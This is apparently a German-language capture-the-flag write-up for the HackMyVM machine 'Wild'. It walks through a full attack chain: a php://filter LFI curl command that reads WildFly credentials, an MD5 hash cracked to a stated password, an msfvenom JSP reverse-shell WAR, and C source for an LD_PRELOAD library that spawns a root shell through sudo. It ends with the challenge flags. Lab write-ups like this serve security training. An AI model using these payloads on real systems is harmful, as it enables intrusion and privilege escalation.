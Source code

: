 # Wild - HackMyVM (Hard)
 
![Wild.png](Wild.png)

## Übersicht

*   **VM:** Wild
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Wild)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 27. April 2024
*   **Original-Writeup:** https://alientec1908.github.io/Wild_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Wild"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Apache-Webservers (Port 80) und mehrerer WildFly/JBoss-Dienste (Ports 8080, 8443, 9990). Eine Local File Inclusion (LFI)-Schwachstelle wurde in `recipe.php` auf Port 80 gefunden. Mittels LFI und dem `php://filter`-Wrapper wurde die WildFly-Konfigurationsdatei `/opt/wildfly/domain/configuration/mgmt-users.properties` ausgelesen. Diese enthielt den Benutzernamen `administrator` und einen MD5-Hash (`MD5(administrator:ManagementRealm:password)`). Der Hash wurde offline geknackt (Passwort: `katarina9`). Dies ermöglichte den Login in die WildFly Management Console (Port 9990). Über die Management Console wurde eine bösartige WAR-Datei (erstellt mit `msfvenom`, enthielt eine JSP-Reverse-Shell) deployed. Das Auslösen der WAR-Datei (`/tao/`) führte zu einer Reverse Shell als Benutzer `tod`. Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Die Privilegieneskalation zu Root erfolgte durch Ausnutzung einer unsicheren `sudo`-Regel: `tod` durfte `/usr/bin/info` als `root` ohne Passwort und mit `SETENV` ausführen. Durch Erstellen einer bösartigen Shared Library (`infohack.so`), die eine Root-Shell startete, und Laden dieser Library über die `LD_PRELOAD`-Umgebungsvariable beim Aufruf von `sudo info` wurde eine Root-Shell erlangt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / `nano`
*   `nmap`
*   `nikto`
*   `dirb`
*   `gobuster`
*   `msfconsole` (Metasploit Framework)
*   `msfvenom`
*   `curl`
*   `nc` (netcat)
*   `python3` (für Hash-Cracker-Skript und `http.server`)
*   `find`
*   `ls`
*   `cat`
*   `getcap` (versucht)
*   `ss`
*   `ps` (impliziert)
*   `hashlib` (Python-Modul)
*   `requests` (Python-Modul im Exploit)
*   `cPickle` (Python-Modul, nicht direkt verwendet, aber oft in Deserialisierungs-Kontexten)
*   `gcc`
*   `mkpasswd` (nicht direkt verwendet, aber verwandt mit Passwort-Hashing)
*   `sudo`
*   `id`
*   `cd`
*   `pwd`
*   `export`
*   `stty`
*   `fg`
*   `wget`
*   `chmod`
*   `cp`
*   `touch` (impliziert)
*   `bash`
*   Standard Linux-Befehle

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Wild" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Service Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.111`). Eintrag von `wild.hmv` in `/etc/hosts`.
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH), 80 (HTTP - Apache "burger html5 landing page"), 8080 (HTTP - WildFly), 8443 (HTTPS - WildFly), 9990 (WildFly Management Console).
    *   `nikto` und `gobuster`/`dirb` auf Port 80 fanden PHP-Dateien (`index.php`, `about.php`, `recipe.php` etc.).
    *   `gobuster` auf Port 8080 fand `/console` (Redirect zu Port 9990). Metasploit `jboss_vulnscan` war erfolglos.
    *   Die WildFly Management Console auf Port 9990 erforderte Authentifizierung.

2.  **LFI & WildFly Admin Credential Cracking:**
    *   Identifizierung einer Local File Inclusion (LFI)-Schwachstelle in `http://wild.hmv/recipe.php` (Parameter `file`).
    *   Auslesen der WildFly-Benutzerkonfigurationsdatei via LFI und `php://filter`:
        `curl 'http://wild.hmv/recipe.php?file=php://filter/convert.base64-encode/resource=/opt/wildfly/domain/configuration/mgmt-users.properties'`
    *   Die dekodierte Datei enthielt den Benutzer `administrator` und den Hash `3bfa7f34174555fe766d0e0295821742` (Format: `MD5(username:ManagementRealm:password)`).
    *   Ein Python-Skript (`hashcracker.py`) mit `rockyou.txt` knackte den Hash: Passwort `katarina9`.

3.  **Initial Access (WildFly WAR Deployment zu `tod`):**
    *   Login in die WildFly Management Console (`http://wild.hmv:9990/`) mit `administrator:katarina9`.
    *   Erstellung einer Java JSP Reverse Shell als WAR-Datei (`tao.war`) mit `msfvenom`:
        `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Angreifer-IP] LPORT=5555 -f war > tao.war`
    *   Deployment von `tao.war` über die WildFly Management Console.
    *   Starten eines `nc`-Listeners auf dem Angreifer-System (Port 5555).
    *   Auslösen der Reverse Shell durch Aufruf von `http://192.168.2.111:8080/tao/`.
    *   Erlangung einer Shell als Benutzer `tod`.
    *   User-Flag `c1cc7f5179a168ec93095695f20c9e3f` in `/home/tod/user.txt` gelesen.

4.  **Privilege Escalation (von `tod` zu `root` via `sudo info` und `LD_PRELOAD`):**
    *   `sudo -l` als `tod` zeigte: `(ALL : ALL) SETENV: NPASSWD: /usr/bin/info`.
    *   Erstellung einer bösartigen Shared Library (`infohack.c`) auf der Angreifer-Maschine, die eine Root-Shell (`/bin/bash -p`) startet:
        ```c
        #include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h>
        void _init() { unsetenv("LD_PRELOAD"); setgid(0); setuid(0); system("/bin/bash -p"); }
        ```
    *   Kompilieren zu `infohack.so`: `gcc -fPIC -shared -o infohack.so infohack.c -nostartfiles`.
    *   Übertragen von `infohack.so` auf das Zielsystem (z.B. `/opt/wildfly/bin/`) via Python HTTP-Server und `wget`.
    *   Ausführung des `sudo`-Befehls mit manipulierter `LD_PRELOAD`-Variable:
        `sudo LD_PRELOAD=/opt/wildfly/bin/infohack.so /usr/bin/info`
    *   Erlangung einer Root-Shell.
    *   Root-Flag `d8592e5a179d4b80e099f4c9a460c6e4` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Local File Inclusion (LFI):** Eine PHP-Datei (`recipe.php`) erlaubte das Lesen beliebiger Dateien, einschließlich sensibler Konfigurationsdateien.
*   **Passwort-Hash-Cracking (MD5):** Ein MD5-Hash für den WildFly-Admin wurde offline geknackt.
*   **Unsicheres WildFly-Deployment:** Nach Erlangung von Admin-Zugang zur Management-Konsole konnte eine bösartige WAR-Datei deployed werden, was zu RCE führte.
*   **Unsichere `sudo`-Konfiguration (`info` mit `SETENV`):** Die Erlaubnis, `/usr/bin/info` als `root` mit der `SETENV`-Option und `NOPASSWD` auszuführen, ermöglichte `LD_PRELOAD`-Hijacking.
*   **`LD_PRELOAD`-Hijacking:** Erstellen einer bösartigen Shared Library, die beim Start eines privilegierten Programms geladen wird und dessen Rechte übernimmt.

## Flags

*   **User Flag (`/home/tod/user.txt`):** `c1cc7f5179a168ec93095695f20c9e3f`
*   **Root Flag (`/root/root.txt`):** `d8592e5a179d4b80e099f4c9a460c6e4`

## Tags

`HackMyVM`, `Wild`, `Hard`, `LFI`, `WildFly`, `JBoss`, `WAR Deployment`, `RCE`, `Password Cracking`, `MD5`, `sudo Exploitation`, `LD_PRELOAD`, `Privilege Escalation`, `Linux`, `Web`, `Java`
